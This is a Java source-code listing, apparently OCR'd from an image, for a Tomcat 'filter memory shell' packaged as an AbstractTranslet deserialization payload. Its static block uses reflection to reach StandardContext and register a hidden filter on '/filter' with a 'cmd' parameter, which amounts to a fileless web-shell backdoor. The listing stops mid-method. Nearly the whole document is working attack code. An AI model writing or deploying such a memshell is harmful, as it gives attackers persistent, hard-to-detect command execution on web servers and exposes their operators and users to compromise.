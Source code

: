 ```plain
import java.lang.reflect.Method;
import java.util.Map;

public class Serialize_FilterMemshell extends AbstractTranslet implements Filter{

    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/filter";
    private final static String filterName = "TestFilter";

    static {
        try {
            //获取StandardContext
            Class c = Class.forName("org.apache.catalina.core.StandardContext");
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            contextField.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            Field stdctx = applicationContext.getClass().getDeclaredField("context");  // 获取属性
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            //获取filterConfigs
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            if (filterConfigs.get(filterName) == null){
                Filter filter=new Serialize_FilterMemshell();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(filterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/filter");
                filterMap.setFilterName(filterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

                filterConfigs.put(filterName,filterConfig);

                if (standardContext != null){
                    //将我们的filter放到最前面
                    Class ccc = null;
                    try {
                        ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                    } catch (Throwable t){}
                    if (ccc == null) {
                        try {
                            ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                        } catch (Throwable t){}
```